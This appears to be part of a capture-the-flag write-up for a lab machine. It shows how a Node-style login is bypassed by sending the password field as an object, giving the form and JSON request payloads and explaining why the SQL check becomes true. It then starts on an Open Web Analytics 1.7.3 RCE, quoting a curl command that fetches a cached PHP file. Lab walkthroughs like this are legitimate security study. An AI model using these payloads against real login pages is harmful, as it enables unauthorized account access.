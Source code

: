 
This can be done as the backend isnt checking the type of data being passed in so you can change it to be an object.

## POC
By changing the POST req you can get a 502 proxy error
```python
username=a&password[$ne]=a
```

Changing this to be:
```python
username=admin&password[password]=1
```

Bypasses the login and redirects to admin. It's best to convert this to json as nginx wont pass this.

```json
Content-Type: application/json # change the header to include this

{
	"username":"admin",
	"password":{
		"password":1
	}
}
```

This works as the SQL query will be
```
SELECT * FROM accounts WHERE username = admin AND password = password = 1; 
```

where 1 will be a bool. So the password check is now converted to `password=password=true` which is true.

# Open Web Analytics
There is a analytics page going to:
```
openwebanalytics.vessel.htb
```

This is version 1.7.3 which has an RCE (Going to use the original blog post and not the auto exploit scripts.) [link](https://devel0pment.de/?p=2494)
```txt
After calculating the filename, we can easily retrieve the cache file:

user@b0x:~$ curl http://localhost/owa_web/owa-data/caches/1/owa_user/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.php
```

Which means source code analysis.

## Code analysis (again)
So the path will be
```php
$cache_file = $collection_dir.$id.'.php';
```
where id is a md5 hash
